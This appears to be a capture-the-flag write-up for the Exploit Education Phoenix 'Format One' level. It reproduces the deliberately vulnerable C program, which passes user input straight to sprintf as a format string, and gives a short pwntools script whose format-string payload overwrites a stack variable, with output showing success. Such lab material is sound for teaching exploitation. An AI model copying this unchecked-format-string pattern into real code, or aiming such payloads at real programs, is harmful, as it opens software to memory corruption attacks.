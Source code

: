 ```yaml
---
title: "Format One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

This level is the same as the last one except that we need set **changeme** to a specific value **0x45764f6c** instead of a random value.

# Solution:

```python
#solve.py

from pwn import *

buff = ""
buff += '%32x'
buff += p64(0x45764f6c)

print(buff)
```

```
$ python solve.py | /opt/phoenix/amd64/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

